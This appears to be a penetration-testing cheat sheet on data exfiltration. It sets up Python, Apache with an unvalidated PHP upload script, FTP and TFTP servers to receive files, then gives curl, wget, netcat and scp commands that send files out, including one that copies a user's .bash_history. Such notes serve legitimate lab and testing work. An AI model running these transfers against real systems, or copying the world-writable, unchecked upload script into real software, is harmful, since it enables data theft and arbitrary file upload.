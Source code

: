 # Data exfiltration

* Rule of thumb: Use native tool first
* Pyhton3 Web Server
* Apache Web Server
* Pure FTPd
* aTFTPd

## Run and download from a Python3 Web Server

* serve current working directory
* retrieve data with different clients

```bash
python3 -m http.server 8080
wget http://serverip:8080/filename -O output
curl http://serverip:8080/filename -o output
```

## Install and configure Apache Web server

* Apache2 is insalled on kali
* config file /etc/apache2/apache2.conf
* default www root /var/www/html/

```bash
sudo apt update && sudo apt install apache2

cat /etc/apache2/apache2.conf
sudo systemctl start apache2

cp file /var/www/html/
ls -al /var/www/html/
```

### Prepare HTML file upload form using PHP

* cp html and php file /var/www/html/
* make upload directory /var/www/html/upload/
* finally restart the apache2 web server to serve the upload
* increase the file upload size sudo vi /etc/php/<version>/apache2/php.ini 
* e.g. **upload_max_filesize = 512M**

```bash
cat << EOF > /var/www/html/upload.html
<html>
<head></head>
<body>
<h4> File uploads </h4>
<form enctype="multipart/form-data" action="upload.php" method="post">
<p>
Select File:
<input type="file" name="uploadedfile" />
<input type="submit" name="Upload" value="Upload" />
</p>
</form>
</body>
</html>
EOF
```

```bash
cat upload.php
<?php 
$uploaddir = "/var/www/html/uploads/";
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile);
?>
EOF

### Upload PHP with Error handling

```bash
cat << EOF > /var/www/html/upload.php
<?php 
$target_path = "uploads/"; 
$target_path = $target_path . basename($_FILES['uploadedfile']['name']); 

echo "Source=" . $_FILES['uploadedfile']['name'] . "<br />"; 
echo "Target path=" . $target_path . "<br />"; 
echo "Size=" . $_FILES['uploadedfile']['size'] . "<br />"; 

if (move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
echo "The file " . basename( $_FILES['uploadedfile']['name']) . " has been uploaded"; 
} else { 
echo "There was an error uploading the file, please try again!"; 
} 
?>
EOF
```

```bash
mkdir /var/www/html/uploads/
chmod 777 .
```

Execute HTML file upload using curl or wget

```bash
curl --form "uploadedfile=@/path/to/file" http://server-ip/upload.php
```

```bash
wget --header="Content-type: multipart/form-data boundary=FILEUPLOAD" \
--post-file postfile http://server-ip/upload.php

cat <<EOF > postfile
--FILEUPLOAD
Content-Disposition: form-data; name="comment"

I love uploading files!

--FILEUPLOAD
Content-Disposition: form-data; name="uploadFile"; filename="myfile.bin"; 
Content-Type: application/octet-stream
Media Type: application/octet-stream

This is the file upload content. 
It's possible without B64 encoding, if the boundary is not part of file.

--FILEUPLOAD--
EOF
```

## Install and configure Pure FTP

* add virtual ftpuser to offsec login user
* create a password for offsec login user
* make /ftphome writeable for pure-ftpd

```bash
sudo apt update && sudo apt install pure-ftpd

cat <<EOF > ./setup-ftp.sh
#!/bin/bash
sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null ftpuser
sudo pure-pw useradd offsec -u ftpuser -d /ftphome
sudo pure-pw mkdb
cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
EOF

chmod +x setup-ftp.sh
sudo ./setup-ftp.sh
systemctl status pure-ftpd
```

## Install and confiugre TFTP

* create /tftp folder
* change owner of /tftp
* start deamon on udp port 69

```bash
sudo apt update && sudo apt install atftpd

cat <<EOF > setup-atftpd.sh
#!/bin/bash

sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
EOF
```

## Connect FTP

Anoymous connect

```bash
ftp host-IP
Name: anonymous
<Enter>

ftp> ls
ftp> get somefile.txt
ftp> put somefile.bin
ftp> quit

# disable passive mode
ftp> passive
# binary file transfer
ftp> binary
# text file only transfer (use with caution)
ftp> ascii

```

## Connect to TFTP

```bash
tftp host-IP
# ls option is by default deactivated
tftp> get somefile.txt
tftp> put somefile.txt
```


## Netcat

```bash
nc -lvnp 1234 > receive.txt
nc -vn host-IP 1234 < send.txt
```

## SCP

```bash
scp user@IP:/home/user/.bash_history history.txt
```
